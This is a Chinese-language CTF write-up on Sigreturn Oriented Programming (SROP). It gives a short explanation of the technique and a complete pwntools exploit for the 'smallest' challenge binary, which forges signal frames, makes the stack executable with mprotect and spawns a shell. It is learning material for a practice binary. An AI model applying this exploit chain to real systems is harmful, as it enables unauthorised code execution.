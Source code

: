 ```yaml
---
title: SROP_SMALLEST
date: 2019-04-10 21:32:35
tags:
---
```

最近发现自己技能点很多都没有点...平时忙了点抽点时间把技能点上...SROP
<!--more-->
# SROP
SROP(Sigreturn Oriented Programming) 于 2014 年被 Vrije Universiteit Amsterdam 的 Erik Bosman 提出，其相关研究Framing Signals — A Return to Portable Shellcode发表在安全顶级会议 Oakland 2014 上，被评选为当年的 Best Student Papers。#摘自[ctfwiki][1]

[paper][2]
[slide][2]

原理及内容在`ctfwiki`上已经介绍的比较清楚
![nier](https://github.com/n132/Watermalon/raw/master/UNK/smallest/SIGNAL.png)
# 过程
执行0xf号(将栈上已经预先放置好的数据弹出)==>控制执行流
可以设置esp达到连续攻击的效果.
# 要求
* 较大空间 放置signal frame(约0x100)
* 泄露地址
* syscall-address
# 难点
理解了感觉没什么难的..利用了15号调用可以劫持执行流..
想出这个的人真厉害...
# exp OF smallest
[binary][4]
```python
from pwn import *
context.log_level='debug'
main=0x0000000004000B0
syscall=0x00000000004000be
p=process('./smallest')


context.arch='amd64'
shellcode=asm(shellcraft.sh())

p.send(p64(main)*3)
sleep(0.3)
#1

raw_input()
p.send("\xb3")

p.read(8)

stack=u64(p.read(8))
log.warning(hex(stack))

sig=SigreturnFrame()
sig.rax=0
sig.rdi=0
sig.rsi=stack&0xfffffffffffffff0
sig.rdx=0x200
sig.rip=0x4000be
sig.rsp=stack&0xfffffffffffffff0
ret=0x00000000004000c0
#2
gdb.attach(p)
raw_input()

p.send(p64(main)+p64(0)+str(sig))
sleep(0.3)
#3

payload=p64(0x0000000004000Be)+p64(0)[:-1]
raw_input()
p.send(payload)
sleep(0.3)

sig=SigreturnFrame()
sig.rax=10
sig.rdi=stack&0xffffffffffff0000
sig.rsi=0x10000
sig.rdx=7
sig.rip=0x4000be
sig.rsp=0x110+(stack&0xfffffffffffffff0)
ret=0x00000000004000c0
payload=p64(main)+p64(0)
raw_input()
p.send(payload+str(sig)+p64(0xdeadbeef)+p64((stack&0xffffffffffff0)+0x118)+asm(shellcraft.sh()))

sleep(0.3)
payload=p64(0x4000Be)+p64(0)[:-1]
raw_input()
p.send(payload)


p.interactive()
```
# review
发现调试的时候可以加上raw_input防止输入乱序

# echo_server
[binary][3]
顺便放一题partial write + ret slide
发现栈其实很`随便`...
aslr下需要概率打通.
# exp
```python

```

[1]:https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/advanced-rop/#srop
[2]:https://github.com/n132/Watermalon/tree/master/UNK/smallest
[3]:https://github.com/n132/Watermalon/tree/master/UNK/echo
[4]:https://github.com/n132/Watermalon/tree/master/UNK/smallest